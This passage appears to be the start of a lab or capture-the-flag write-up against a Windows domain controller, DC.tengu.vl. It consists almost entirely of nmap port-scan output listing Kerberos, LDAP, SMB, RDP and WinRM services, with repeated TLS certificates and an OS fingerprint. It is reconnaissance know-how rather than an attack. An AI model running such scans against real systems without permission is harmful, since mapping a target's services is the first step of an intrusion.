




As usual I will perform a common ports scan over the TCP stack:

```bash
PORT      STATE SERVICE       REASON         VERSION
53/tcp    open  domain        syn-ack ttl 64 Simple DNS Plus
88/tcp    open  kerberos-sec  syn-ack ttl 64 Microsoft Windows Kerberos (server time: 2026-03-17 14:04:28Z)
135/tcp   open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 64 Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack ttl 64 Microsoft Windows Active Directory LDAP (Domain: tengu.vl, Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC.tengu.vl
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC.tengu.vl
| Issuer: commonName=tengu-DC-CA/domainComponent=tengu
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2025-07-29T09:34:57
| Not valid after:  2026-07-29T09:34:57
| MD5:     f70e 38ad bc4d a196 c73f 48c4 f789 ea36
| SHA-1:   e0f6 b846 b7c3 090e a144 b202 7410 d797 2964 156b
| SHA-256: b603 d6e7 7b0d 4286 dfc0 a589 9fb5 e941 da6a 86ed 22b3 887c cf91 b053 9a02 1b0b
| -----BEGIN CERTIFICATE-----
| MIIGDzCCBPegAwIBAgITRQAAAAPC9Vupf/sZkwAAAAAAAzANBgkqhkiG9w0BAQsF
| ADBBMRIwEAYKCZImiZPyLGQBGRYCdmwxFTATBgoJkiaJk/IsZAEZFgV0ZW5ndTEU
| MBIGA1UEAxMLdGVuZ3UtREMtQ0EwHhcNMjUwNzI5MDkzNDU3WhcNMjYwNzI5MDkz
| NDU3WjAWMRQwEgYDVQQDEwtEQy50ZW5ndS52bDCCASIwDQYJKoZIhvcNAQEBBQAD
| ggEPADCCAQoCggEBAN5zAdAjbysdz9yohGF4+/S3Ltffr9cIseNw6rYJuoOVzcGA
| MNByFSMxg2QvztOdFH5pTiChzIZy4KEn/ws/y0FkqMnGdIor6MypgOVS8UF4SkuQ
| pcvxzbmcPFl6i6t2okeeR/idYZ5pLJATD1qFR6Lh04tasIRqMOdaQJFMm83jC2ZR
| ZQQwN9E+PIru9JEGZeCOvpgw53AEvWZoOsVICnJ+fghseVVhpLBVwOSqVyFOlbQx
| iCHANzZT6HvGablqgrXeRD3/k8G9vRLu4lfoAsZ3V4/vBgjQV282ulmKHTzOu7zX
| 14XvIHiXM1nTRQ9K6STiGPbRPFg74F9CTqHz6QkCAwEAAaOCAykwggMlMC8GCSsG
| AQQBgjcUAgQiHiAARABvAG0AYQBpAG4AQwBvAG4AdAByAG8AbABsAGUAcjAdBgNV
| HSUEFjAUBggrBgEFBQcDAgYIKwYBBQUHAwEwDgYDVR0PAQH/BAQDAgWgMHgGCSqG
| SIb3DQEJDwRrMGkwDgYIKoZIhvcNAwICAgCAMA4GCCqGSIb3DQMEAgIAgDALBglg
| hkgBZQMEASowCwYJYIZIAWUDBAEtMAsGCWCGSAFlAwQBAjALBglghkgBZQMEAQUw
| BwYFKw4DAgcwCgYIKoZIhvcNAwcwHQYDVR0OBBYEFMTpT4hHDT6k2WXBqgZeEyAJ
| JvUxMB8GA1UdIwQYMBaAFLeXM7L40AVwL1oXFWa/rWHo0rwqMIHBBgNVHR8Egbkw
| gbYwgbOggbCgga2GgapsZGFwOi8vL0NOPXRlbmd1LURDLUNBLENOPURDLENOPUNE
| UCxDTj1QdWJsaWMlMjBLZXklMjBTZXJ2aWNlcyxDTj1TZXJ2aWNlcyxDTj1Db25m
| aWd1cmF0aW9uLERDPXRlbmd1LERDPXZsP2NlcnRpZmljYXRlUmV2b2NhdGlvbkxp
| c3Q/YmFzZT9vYmplY3RDbGFzcz1jUkxEaXN0cmlidXRpb25Qb2ludDCBugYIKwYB
| BQUHAQEEga0wgaowgacGCCsGAQUFBzAChoGabGRhcDovLy9DTj10ZW5ndS1EQy1D
| QSxDTj1BSUEsQ049UHVibGljJTIwS2V5JTIwU2VydmljZXMsQ049U2VydmljZXMs
| Q049Q29uZmlndXJhdGlvbixEQz10ZW5ndSxEQz12bD9jQUNlcnRpZmljYXRlP2Jh
| c2U/b2JqZWN0Q2xhc3M9Y2VydGlmaWNhdGlvbkF1dGhvcml0eTA3BgNVHREEMDAu
| oB8GCSsGAQQBgjcZAaASBBAM4uj2ts0sQYgUyCpkIsisggtEQy50ZW5ndS52bDBP
| BgkrBgEEAYI3GQIEQjBAoD4GCisGAQQBgjcZAgGgMAQuUy0xLTUtMjEtMzk1NzM5
| MTQxOS0zNzUwMDA0MjExLTQxNDI0MzM4NzAtMTAwMDANBgkqhkiG9w0BAQsFAAOC
| AQEAIFfpahRf2qZeuF+qCNA/uPm4TDWnfnji7a881uujGL5jPpfERlJwAlqEiSGR
| dhdrhhbsOfoyK4ut3pagmguwNWejxHKmIV6lNfYOe7QddKXMqWmW5l/giIZxME1/
| 9pbIEWvIE4L9QjnFLZoF4QE+V20E7PwhpMEufpjHgTCFW2gT5AsVJU6GMN+r3OXf
| ANiaWpH3jdXaLs7/hHkm2eoU0bNb/PQ06Jsqf/JDunkurX2BsBgiKyQqf4M2B+ku
| JJuHnRoziDKzO66Fx1eO4Mm/F51p1GlqC0HPyaYQyd7mbrROyC4Z69tBuZc7ljV8
| EzsJFKbh154v8bMeXFbL24UTmQ==
|_-----END CERTIFICATE-----
|_ssl-date: TLS randomness does not represent time
445/tcp   open  microsoft-ds? syn-ack ttl 64
464/tcp   open  kpasswd5?     syn-ack ttl 64
593/tcp   open  ncacn_http    syn-ack ttl 64 Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      syn-ack ttl 64 Microsoft Windows Active Directory LDAP (Domain: tengu.vl, Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=DC.tengu.vl
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC.tengu.vl
| Issuer: commonName=tengu-DC-CA/domainComponent=tengu
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2025-07-29T09:34:57
| Not valid after:  2026-07-29T09:34:57
| MD5:     f70e 38ad bc4d a196 c73f 48c4 f789 ea36
| SHA-1:   e0f6 b846 b7c3 090e a144 b202 7410 d797 2964 156b
| SHA-256: b603 d6e7 7b0d 4286 dfc0 a589 9fb5 e941 da6a 86ed 22b3 887c cf91 b053 9a02 1b0b
| -----BEGIN CERTIFICATE-----
| MIIGDzCCBPegAwIBAgITRQAAAAPC9Vupf/sZkwAAAAAAAzANBgkqhkiG9w0BAQsF
| ADBBMRIwEAYKCZImiZPyLGQBGRYCdmwxFTATBgoJkiaJk/IsZAEZFgV0ZW5ndTEU
| MBIGA1UEAxMLdGVuZ3UtREMtQ0EwHhcNMjUwNzI5MDkzNDU3WhcNMjYwNzI5MDkz
| NDU3WjAWMRQwEgYDVQQDEwtEQy50ZW5ndS52bDCCASIwDQYJKoZIhvcNAQEBBQAD
| ggEPADCCAQoCggEBAN5zAdAjbysdz9yohGF4+/S3Ltffr9cIseNw6rYJuoOVzcGA
| MNByFSMxg2QvztOdFH5pTiChzIZy4KEn/ws/y0FkqMnGdIor6MypgOVS8UF4SkuQ
| pcvxzbmcPFl6i6t2okeeR/idYZ5pLJATD1qFR6Lh04tasIRqMOdaQJFMm83jC2ZR
| ZQQwN9E+PIru9JEGZeCOvpgw53AEvWZoOsVICnJ+fghseVVhpLBVwOSqVyFOlbQx
| iCHANzZT6HvGablqgrXeRD3/k8G9vRLu4lfoAsZ3V4/vBgjQV282ulmKHTzOu7zX
| 14XvIHiXM1nTRQ9K6STiGPbRPFg74F9CTqHz6QkCAwEAAaOCAykwggMlMC8GCSsG
| AQQBgjcUAgQiHiAARABvAG0AYQBpAG4AQwBvAG4AdAByAG8AbABsAGUAcjAdBgNV
| HSUEFjAUBggrBgEFBQcDAgYIKwYBBQUHAwEwDgYDVR0PAQH/BAQDAgWgMHgGCSqG
| SIb3DQEJDwRrMGkwDgYIKoZIhvcNAwICAgCAMA4GCCqGSIb3DQMEAgIAgDALBglg
| hkgBZQMEASowCwYJYIZIAWUDBAEtMAsGCWCGSAFlAwQBAjALBglghkgBZQMEAQUw
| BwYFKw4DAgcwCgYIKoZIhvcNAwcwHQYDVR0OBBYEFMTpT4hHDT6k2WXBqgZeEyAJ
| JvUxMB8GA1UdIwQYMBaAFLeXM7L40AVwL1oXFWa/rWHo0rwqMIHBBgNVHR8Egbkw
| gbYwgbOggbCgga2GgapsZGFwOi8vL0NOPXRlbmd1LURDLUNBLENOPURDLENOPUNE
| UCxDTj1QdWJsaWMlMjBLZXklMjBTZXJ2aWNlcyxDTj1TZXJ2aWNlcyxDTj1Db25m
| aWd1cmF0aW9uLERDPXRlbmd1LERDPXZsP2NlcnRpZmljYXRlUmV2b2NhdGlvbkxp
| c3Q/YmFzZT9vYmplY3RDbGFzcz1jUkxEaXN0cmlidXRpb25Qb2ludDCBugYIKwYB
| BQUHAQEEga0wgaowgacGCCsGAQUFBzAChoGabGRhcDovLy9DTj10ZW5ndS1EQy1D
| QSxDTj1BSUEsQ049UHVibGljJTIwS2V5JTIwU2VydmljZXMsQ049U2VydmljZXMs
| Q049Q29uZmlndXJhdGlvbixEQz10ZW5ndSxEQz12bD9jQUNlcnRpZmljYXRlP2Jh
| c2U/b2JqZWN0Q2xhc3M9Y2VydGlmaWNhdGlvbkF1dGhvcml0eTA3BgNVHREEMDAu
| oB8GCSsGAQQBgjcZAaASBBAM4uj2ts0sQYgUyCpkIsisggtEQy50ZW5ndS52bDBP
| BgkrBgEEAYI3GQIEQjBAoD4GCisGAQQBgjcZAgGgMAQuUy0xLTUtMjEtMzk1NzM5
| MTQxOS0zNzUwMDA0MjExLTQxNDI0MzM4NzAtMTAwMDANBgkqhkiG9w0BAQsFAAOC
| AQEAIFfpahRf2qZeuF+qCNA/uPm4TDWnfnji7a881uujGL5jPpfERlJwAlqEiSGR
| dhdrhhbsOfoyK4ut3pagmguwNWejxHKmIV6lNfYOe7QddKXMqWmW5l/giIZxME1/
| 9pbIEWvIE4L9QjnFLZoF4QE+V20E7PwhpMEufpjHgTCFW2gT5AsVJU6GMN+r3OXf
| ANiaWpH3jdXaLs7/hHkm2eoU0bNb/PQ06Jsqf/JDunkurX2BsBgiKyQqf4M2B+ku
| JJuHnRoziDKzO66Fx1eO4Mm/F51p1GlqC0HPyaYQyd7mbrROyC4Z69tBuZc7ljV8
| EzsJFKbh154v8bMeXFbL24UTmQ==
|_-----END CERTIFICATE-----
3268/tcp  open  ldap          syn-ack ttl 64 Microsoft Windows Active Directory LDAP (Domain: tengu.vl, Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC.tengu.vl
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC.tengu.vl
| Issuer: commonName=tengu-DC-CA/domainComponent=tengu
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2025-07-29T09:34:57
| Not valid after:  2026-07-29T09:34:57
| MD5:     f70e 38ad bc4d a196 c73f 48c4 f789 ea36
| SHA-1:   e0f6 b846 b7c3 090e a144 b202 7410 d797 2964 156b
| SHA-256: b603 d6e7 7b0d 4286 dfc0 a589 9fb5 e941 da6a 86ed 22b3 887c cf91 b053 9a02 1b0b
| -----BEGIN CERTIFICATE-----
| MIIGDzCCBPegAwIBAgITRQAAAAPC9Vupf/sZkwAAAAAAAzANBgkqhkiG9w0BAQsF
| ADBBMRIwEAYKCZImiZPyLGQBGRYCdmwxFTATBgoJkiaJk/IsZAEZFgV0ZW5ndTEU
| MBIGA1UEAxMLdGVuZ3UtREMtQ0EwHhcNMjUwNzI5MDkzNDU3WhcNMjYwNzI5MDkz
| NDU3WjAWMRQwEgYDVQQDEwtEQy50ZW5ndS52bDCCASIwDQYJKoZIhvcNAQEBBQAD
| ggEPADCCAQoCggEBAN5zAdAjbysdz9yohGF4+/S3Ltffr9cIseNw6rYJuoOVzcGA
| MNByFSMxg2QvztOdFH5pTiChzIZy4KEn/ws/y0FkqMnGdIor6MypgOVS8UF4SkuQ
| pcvxzbmcPFl6i6t2okeeR/idYZ5pLJATD1qFR6Lh04tasIRqMOdaQJFMm83jC2ZR
| ZQQwN9E+PIru9JEGZeCOvpgw53AEvWZoOsVICnJ+fghseVVhpLBVwOSqVyFOlbQx
| iCHANzZT6HvGablqgrXeRD3/k8G9vRLu4lfoAsZ3V4/vBgjQV282ulmKHTzOu7zX
| 14XvIHiXM1nTRQ9K6STiGPbRPFg74F9CTqHz6QkCAwEAAaOCAykwggMlMC8GCSsG
| AQQBgjcUAgQiHiAARABvAG0AYQBpAG4AQwBvAG4AdAByAG8AbABsAGUAcjAdBgNV
| HSUEFjAUBggrBgEFBQcDAgYIKwYBBQUHAwEwDgYDVR0PAQH/BAQDAgWgMHgGCSqG
| SIb3DQEJDwRrMGkwDgYIKoZIhvcNAwICAgCAMA4GCCqGSIb3DQMEAgIAgDALBglg
| hkgBZQMEASowCwYJYIZIAWUDBAEtMAsGCWCGSAFlAwQBAjALBglghkgBZQMEAQUw
| BwYFKw4DAgcwCgYIKoZIhvcNAwcwHQYDVR0OBBYEFMTpT4hHDT6k2WXBqgZeEyAJ
| JvUxMB8GA1UdIwQYMBaAFLeXM7L40AVwL1oXFWa/rWHo0rwqMIHBBgNVHR8Egbkw
| gbYwgbOggbCgga2GgapsZGFwOi8vL0NOPXRlbmd1LURDLUNBLENOPURDLENOPUNE
| UCxDTj1QdWJsaWMlMjBLZXklMjBTZXJ2aWNlcyxDTj1TZXJ2aWNlcyxDTj1Db25m
| aWd1cmF0aW9uLERDPXRlbmd1LERDPXZsP2NlcnRpZmljYXRlUmV2b2NhdGlvbkxp
| c3Q/YmFzZT9vYmplY3RDbGFzcz1jUkxEaXN0cmlidXRpb25Qb2ludDCBugYIKwYB
| BQUHAQEEga0wgaowgacGCCsGAQUFBzAChoGabGRhcDovLy9DTj10ZW5ndS1EQy1D
| QSxDTj1BSUEsQ049UHVibGljJTIwS2V5JTIwU2VydmljZXMsQ049U2VydmljZXMs
| Q049Q29uZmlndXJhdGlvbixEQz10ZW5ndSxEQz12bD9jQUNlcnRpZmljYXRlP2Jh
| c2U/b2JqZWN0Q2xhc3M9Y2VydGlmaWNhdGlvbkF1dGhvcml0eTA3BgNVHREEMDAu
| oB8GCSsGAQQBgjcZAaASBBAM4uj2ts0sQYgUyCpkIsisggtEQy50ZW5ndS52bDBP
| BgkrBgEEAYI3GQIEQjBAoD4GCisGAQQBgjcZAgGgMAQuUy0xLTUtMjEtMzk1NzM5
| MTQxOS0zNzUwMDA0MjExLTQxNDI0MzM4NzAtMTAwMDANBgkqhkiG9w0BAQsFAAOC
| AQEAIFfpahRf2qZeuF+qCNA/uPm4TDWnfnji7a881uujGL5jPpfERlJwAlqEiSGR
| dhdrhhbsOfoyK4ut3pagmguwNWejxHKmIV6lNfYOe7QddKXMqWmW5l/giIZxME1/
| 9pbIEWvIE4L9QjnFLZoF4QE+V20E7PwhpMEufpjHgTCFW2gT5AsVJU6GMN+r3OXf
| ANiaWpH3jdXaLs7/hHkm2eoU0bNb/PQ06Jsqf/JDunkurX2BsBgiKyQqf4M2B+ku
| JJuHnRoziDKzO66Fx1eO4Mm/F51p1GlqC0HPyaYQyd7mbrROyC4Z69tBuZc7ljV8
| EzsJFKbh154v8bMeXFbL24UTmQ==
|_-----END CERTIFICATE-----
|_ssl-date: TLS randomness does not represent time
3269/tcp  open  ssl/ldap      syn-ack ttl 64 Microsoft Windows Active Directory LDAP (Domain: tengu.vl, Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=DC.tengu.vl
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC.tengu.vl
| Issuer: commonName=tengu-DC-CA/domainComponent=tengu
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2025-07-29T09:34:57
| Not valid after:  2026-07-29T09:34:57
| MD5:     f70e 38ad bc4d a196 c73f 48c4 f789 ea36
| SHA-1:   e0f6 b846 b7c3 090e a144 b202 7410 d797 2964 156b
| SHA-256: b603 d6e7 7b0d 4286 dfc0 a589 9fb5 e941 da6a 86ed 22b3 887c cf91 b053 9a02 1b0b
| -----BEGIN CERTIFICATE-----
| MIIGDzCCBPegAwIBAgITRQAAAAPC9Vupf/sZkwAAAAAAAzANBgkqhkiG9w0BAQsF
| ADBBMRIwEAYKCZImiZPyLGQBGRYCdmwxFTATBgoJkiaJk/IsZAEZFgV0ZW5ndTEU
| MBIGA1UEAxMLdGVuZ3UtREMtQ0EwHhcNMjUwNzI5MDkzNDU3WhcNMjYwNzI5MDkz
| NDU3WjAWMRQwEgYDVQQDEwtEQy50ZW5ndS52bDCCASIwDQYJKoZIhvcNAQEBBQAD
| ggEPADCCAQoCggEBAN5zAdAjbysdz9yohGF4+/S3Ltffr9cIseNw6rYJuoOVzcGA
| MNByFSMxg2QvztOdFH5pTiChzIZy4KEn/ws/y0FkqMnGdIor6MypgOVS8UF4SkuQ
| pcvxzbmcPFl6i6t2okeeR/idYZ5pLJATD1qFR6Lh04tasIRqMOdaQJFMm83jC2ZR
| ZQQwN9E+PIru9JEGZeCOvpgw53AEvWZoOsVICnJ+fghseVVhpLBVwOSqVyFOlbQx
| iCHANzZT6HvGablqgrXeRD3/k8G9vRLu4lfoAsZ3V4/vBgjQV282ulmKHTzOu7zX
| 14XvIHiXM1nTRQ9K6STiGPbRPFg74F9CTqHz6QkCAwEAAaOCAykwggMlMC8GCSsG
| AQQBgjcUAgQiHiAARABvAG0AYQBpAG4AQwBvAG4AdAByAG8AbABsAGUAcjAdBgNV
| HSUEFjAUBggrBgEFBQcDAgYIKwYBBQUHAwEwDgYDVR0PAQH/BAQDAgWgMHgGCSqG
| SIb3DQEJDwRrMGkwDgYIKoZIhvcNAwICAgCAMA4GCCqGSIb3DQMEAgIAgDALBglg
| hkgBZQMEASowCwYJYIZIAWUDBAEtMAsGCWCGSAFlAwQBAjALBglghkgBZQMEAQUw
| BwYFKw4DAgcwCgYIKoZIhvcNAwcwHQYDVR0OBBYEFMTpT4hHDT6k2WXBqgZeEyAJ
| JvUxMB8GA1UdIwQYMBaAFLeXM7L40AVwL1oXFWa/rWHo0rwqMIHBBgNVHR8Egbkw
| gbYwgbOggbCgga2GgapsZGFwOi8vL0NOPXRlbmd1LURDLUNBLENOPURDLENOPUNE
| UCxDTj1QdWJsaWMlMjBLZXklMjBTZXJ2aWNlcyxDTj1TZXJ2aWNlcyxDTj1Db25m
| aWd1cmF0aW9uLERDPXRlbmd1LERDPXZsP2NlcnRpZmljYXRlUmV2b2NhdGlvbkxp
| c3Q/YmFzZT9vYmplY3RDbGFzcz1jUkxEaXN0cmlidXRpb25Qb2ludDCBugYIKwYB
| BQUHAQEEga0wgaowgacGCCsGAQUFBzAChoGabGRhcDovLy9DTj10ZW5ndS1EQy1D
| QSxDTj1BSUEsQ049UHVibGljJTIwS2V5JTIwU2VydmljZXMsQ049U2VydmljZXMs
| Q049Q29uZmlndXJhdGlvbixEQz10ZW5ndSxEQz12bD9jQUNlcnRpZmljYXRlP2Jh
| c2U/b2JqZWN0Q2xhc3M9Y2VydGlmaWNhdGlvbkF1dGhvcml0eTA3BgNVHREEMDAu
| oB8GCSsGAQQBgjcZAaASBBAM4uj2ts0sQYgUyCpkIsisggtEQy50ZW5ndS52bDBP
| BgkrBgEEAYI3GQIEQjBAoD4GCisGAQQBgjcZAgGgMAQuUy0xLTUtMjEtMzk1NzM5
| MTQxOS0zNzUwMDA0MjExLTQxNDI0MzM4NzAtMTAwMDANBgkqhkiG9w0BAQsFAAOC
| AQEAIFfpahRf2qZeuF+qCNA/uPm4TDWnfnji7a881uujGL5jPpfERlJwAlqEiSGR
| dhdrhhbsOfoyK4ut3pagmguwNWejxHKmIV6lNfYOe7QddKXMqWmW5l/giIZxME1/
| 9pbIEWvIE4L9QjnFLZoF4QE+V20E7PwhpMEufpjHgTCFW2gT5AsVJU6GMN+r3OXf
| ANiaWpH3jdXaLs7/hHkm2eoU0bNb/PQ06Jsqf/JDunkurX2BsBgiKyQqf4M2B+ku
| JJuHnRoziDKzO66Fx1eO4Mm/F51p1GlqC0HPyaYQyd7mbrROyC4Z69tBuZc7ljV8
| EzsJFKbh154v8bMeXFbL24UTmQ==
|_-----END CERTIFICATE-----
3389/tcp  open  ms-wbt-server syn-ack ttl 64 Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: TENGU
|   NetBIOS_Domain_Name: TENGU
|   NetBIOS_Computer_Name: DC
|   DNS_Domain_Name: tengu.vl
|   DNS_Computer_Name: DC.tengu.vl
|   Product_Version: 10.0.20348
|_  System_Time: 2026-03-17T14:05:20+00:00
| ssl-cert: Subject: commonName=DC.tengu.vl
| Issuer: commonName=DC.tengu.vl
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2026-03-16T03:20:52
| Not valid after:  2026-09-15T03:20:52
| MD5:     381d 5fcc b243 f245 edeb 103a 549d 72f4
| SHA-1:   e5d1 b7d9 9343 6e4d a223 7439 f447 04ae 4c0f e7e3
| SHA-256: 56d5 c8be 02c5 c05a 540f 66a9 0fb4 ff0b d44f 112a 3e0e 6d0b 51cc bf5a edb2 6f06
| -----BEGIN CERTIFICATE-----
| MIIC2jCCAcKgAwIBAgIQMib2iawairRAuVioSH2p9TANBgkqhkiG9w0BAQsFADAW
| MRQwEgYDVQQDEwtEQy50ZW5ndS52bDAeFw0yNjAzMTYwMzIwNTJaFw0yNjA5MTUw
| MzIwNTJaMBYxFDASBgNVBAMTC0RDLnRlbmd1LnZsMIIBIjANBgkqhkiG9w0BAQEF
| AAOCAQ8AMIIBCgKCAQEAqLW8dAwveZsrG1BpHLfb7Gjf4Rl0WMFv/zdicmbqEfM9
| gzPIc/+1/vPkLYuc4O0UOwvOwArwArIlVhxZLMnW+t3KUnBwHqVvhAe5u4DOUIqc
| kG1b8F4cdqErqxqWs2c38Hg3VeGdxswWuIiyrQcC7gRXA+ict24ExMVl4l6689ml
| LoQYE6cl9y9Y3hpStWcjyQUA55PbLbbCZsaz7BP7jBUHEcqd20hatd9W2pOOsgia
| rFPV/5kXSy4sWpLw9D7+yZkrR67msiel0c62azOgsyFo970HqbmI3KC2YhkpaWJe
| MPwvIqtOJ1zrV6kUM2knJCgwddTRufizG1S6osnaZQIDAQABoyQwIjATBgNVHSUE
| DDAKBggrBgEFBQcDATALBgNVHQ8EBAMCBDAwDQYJKoZIhvcNAQELBQADggEBAGPf
| tmoFFa3SUoQes8e2Jo0v+Qh3Myhhk9Ram9E9ttqFz7alfmlVqlOGZWMu+ABXHZra
| PjB1S6dRSxgTd9M2scZmG+I9aQTqJgD74HwvwAn4xc2Uoeq8t10SvZh3h2aa/Zhd
| 0fLa99gagZxzPWUU4Vm0Ppt3W+B3DMSho9cjgJQVMLVekynyMTnB89g+DiMd5Aek
| 1RlcEn7eU2AkV/7b2eRrlcOhsBpqHFIvrOSfwwrQEtgq3ZCQ/dUQxLVVQpibW4XB
| Fl3S2KcsetO/amvQSZT8zCB0y7spXNj1MLhfUQiBAXM8k0ZpP3LYxM08TuIcJw3G
| kK0RGLFYf7BmhW+JOsI=
|_-----END CERTIFICATE-----
|_ssl-date: 2026-03-17T14:06:00+00:00; 0s from scanner time.
5985/tcp  open  http          syn-ack ttl 64 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        syn-ack ttl 64 .NET Message Framing
49664/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49667/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49669/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49684/tcp open  ncacn_http    syn-ack ttl 64 Microsoft Windows RPC over HTTP 1.0
49685/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49703/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49719/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49730/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49818/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
No OS matches for host
TCP/IP fingerprint:
SCAN(V=7.98%E=4%D=3/17%OT=53%CT=%CU=%PV=Y%G=N%TM=69B95FC9%P=x86_64-pc-linux-gnu)
SEQ(SP=106%GCD=1%ISR=106%TI=I%CI=I%II=RI%TS=A)
SEQ(SP=108%GCD=1%ISR=10B%TI=I%CI=I%II=RI%TS=A)
OPS(O1=M5B4NNT11NW7%O2=M5B4NNT11NW7%O3=M5B4NNT11NW7%O4=M5B4NNT11NW7%O5=M5B4NNT11NW7%O6=M5B4NNT11)
WIN(W1=7200%W2=7200%W3=7200%W4=7200%W5=7200%W6=7200)
ECN(R=Y%DF=N%TG=40%W=7200%O=M5B4NW7%CC=N%Q=)
T1(R=Y%DF=N%TG=40%S=O%A=S+%F=AS%RD=0%Q=)
T2(R=Y%DF=N%TG=40%W=0%S=Z%A=S%F=AR%O=%RD=0%Q=)
